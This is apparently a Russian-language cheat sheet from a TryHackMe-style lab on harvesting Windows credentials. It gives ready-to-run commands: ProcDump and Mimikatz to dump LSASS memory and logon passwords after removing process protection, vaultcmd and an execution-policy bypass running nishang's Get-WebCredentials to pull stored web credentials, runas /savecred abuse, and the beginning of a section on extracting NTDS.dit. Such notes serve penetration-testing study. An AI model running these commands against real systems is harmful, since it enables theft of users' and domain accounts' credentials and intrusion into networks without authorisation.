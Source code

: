 #### Sysinternals Suite
ProcDump — это утилита дампа процесса Sysinternals, которая запускается из командной строки.
```ps
procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump
```

#### Mimikatz
Mimikatz  — это инструмент пост-эксплуатации, который позволяет использовать  другие полезные атаки , такие как  pass-the-hash, pass-the-ticket или создание билетов Golden Kerberos . Mimikatz работает с памятью операционной системы для доступа к информации. Таким образом,  для дампа памяти и извлечения учетных данных требуются права администратора и системы.

```ps
privilege::debug
!processprotect /process:lsass.exe /remove
sekurlsa::logonpasswords
```
___
# Диспетчер учетных данных Windows
### Credential Manager
```powershell
vaultcmd /list
VaultCmd /listproperties:"Web Credentials"
VaultCmd /listcreds:"Web Credentials"
```

### Сброс учетных данных
```http
https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1
```

```bash
powershell -ex bypass
Import-Module C:\Tools\Get-WebCredentials.ps1
Get-WebCredentials
```

### Запустить как
RunAs — это встроенный инструмент командной строки, который позволяет запускать приложения или инструменты Windows с разрешениями разных пользователей.
Аргумент `/savecred`позволяет вам сохранять учетные данные пользователя в диспетчере учетных данных Windows (в разделе «Учетные данные Windows»). Таким образом, в следующий раз, когда мы выполним команду от имени того же пользователя, runas не будет запрашивать пароль.

```powershell
cmdkey /list
runas /savecred /user:THM.red\thm-local cmd.exe
```

```mimikatz
sekurlsa::credman
```
___
# Контроллер домена
NTDS по умолчанию находится в `C:\Windows\NTDS`и зашифрован, чтобы предотвратить извлечение данных с целевой машины. Доступ к файлу NTDS.dit с работающей машины запрещен, так как файл используется Active Directory и заблокирован.
## Ntdsutil
Ntdsutil — это утилита Windows, используемая для управления и поддержки конфигураций Active Directory.
```cmd
C:\Windows\NTDS\ntds.dit
```
